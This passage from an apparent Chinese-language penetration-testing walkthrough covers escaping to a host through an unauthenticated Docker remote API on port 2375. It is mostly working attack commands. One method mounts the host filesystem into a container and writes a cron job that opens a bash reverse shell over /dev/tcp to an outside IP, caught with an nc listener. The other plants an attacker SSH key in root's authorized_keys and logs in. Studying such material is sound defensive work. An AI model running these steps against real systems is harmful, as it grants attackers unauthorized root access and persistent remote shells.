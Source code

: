 所以我们可以构造出反弹shell的语句: 
```bash
* * * * * /bin/bash –i >& /dev/tcp/ip/port 0>&1  # 任意时间都会反弹shell
*/1 * * * * /bin/bash –i >& /dev/tcp/ip/port 0>&1 # 每隔一分钟就会反弹shell
```
启动一个容器并挂载宿主机的mnt目录，返回其sh shell
参数说明

- run 运行容器
- --rm 容器停止时,自动删除该容器
- -v 挂载目录
- -I  指示docker在容器上打开一个标准的输入接口
- -t  指示docker要创建一个伪tty终端
```bash
# 启动容器之后退出容器就会清理掉该容器
docker -H tcp://120.27.21.11:2375 run --rm -it -v /:/mnt busybox chroot /mnt sh 
```
写入到定时任务当中，因为挂载的是宿主机的mnt目录所以定时任务将由宿主机触发从而完成逃逸
```bash
echo "*/1 * * * * /bin/bash -i >& /dev/tcp/43.142.177.224/80 0>&1" > /var/spool/cron/root 
```
##### 逃逸成功
攻击机开启nc监听,过一段时间之后就会得到宿主机反弹回来的shell了
```bash
nc -lvk 80
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666072792941-11b5f262-823f-4e93-a8f3-33fd29b5cf68.png#averageHue=%23161211&clientId=u92b4853e-579b-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=384&id=u4fcfd689&margin=%5Bobject%20Object%5D&name=image.png&originHeight=576&originWidth=1364&originalType=binary&ratio=1&rotation=0&showTitle=false&size=86142&status=error&style=none&taskId=u98f47281-4dee-4cd4-8ed0-29181c9d799&title=&width=909.3333333333334)
#### 攻击方式二 写入SSH公钥进行远程连接
攻击机生成一个key,ssh-keygen –t rsa 指定rsa的加密方式生成之后会在/root/.ssh目录下
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666073489766-6769ab98-6111-402b-910a-bc57a4c941b1.png#averageHue=%230f0d0b&clientId=u92b4853e-579b-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=347&id=u9f526a16&margin=%5Bobject%20Object%5D&name=image.png&originHeight=520&originWidth=646&originalType=binary&ratio=1&rotation=0&showTitle=false&size=44179&status=error&style=none&taskId=ud6d1a1fd-9a9c-4b78-9e2a-b87f87a4d2c&title=&width=430.6666666666667)
进行远程创建docker并添加密钥
```bash
docker -H tcp://120.27.21.11:2375 run --rm -it -v /:/mnt busybox chroot /mnt sh
```
将公钥通过API创建的容器利用文件挂载写入宿主机的~/.ssh/authorized_keys文件中
```bash
cd ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDC8Aqv9WNzyNWujw+Z5Oegv5Xmc6g+c3OOZO4sgzWTsyVwawFe+0BdSRhoc0vUCzRw111kQmWBHaeuE2HkT6qsdhKVI3X97YuXeHrOyQwYDxxK7pIAbtOKEK+oFSgD/EOToKkOfzRcjIcmj/I60nPaFY631LSGvLx5DsltvbUIF0h3KCf8LTgbg0NHL0hhJSsubyoFnU+x/I2CASfcAmH2ZYAm5EHlvuFB680xbRhZaN7r1vUPG4SlYySrE4hNOh7UR6azhDbxoz5WNGFc1mWXDlWiMNs17KfWQRmTwDxvCDbTzcerTNGIJZ/3P7ALUDoE8B/fYk2N4j7HmEqY2la9 root@source" > /root/.ssh/authorized_keys
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666074191276-6da4d40a-77bb-4930-811a-6877b9aa0334.png#averageHue=%23221d19&clientId=u92b4853e-579b-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=187&id=ued58296f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=280&originWidth=714&originalType=binary&ratio=1&rotation=0&showTitle=false&size=40328&status=error&style=none&taskId=u2695308f-1397-4ba9-89a1-f0eacbb48ef&title=&width=476)
攻击机利用私钥进行连接
```bash
ssh -i id_rsa2 root@120.27.21.11
```
##### 逃逸成功
成功远程连接
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666074484149-840af151-5f88-4a4b-b68c-ee2b8aa5cd4d.png#averageHue=%2313100e&clientId=u92b4853e-579b-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=333&id=u40d7c534&margin=%5Bobject%20Object%5D&name=image.png&originHeight=500&originWidth=1367&originalType=binary&ratio=1&rotation=0&showTitle=false&size=112535&status=error&style=none&taskId=uc6997b7b-b875-4946-882e-b339acb9398&title=&width=911.3333333333334)
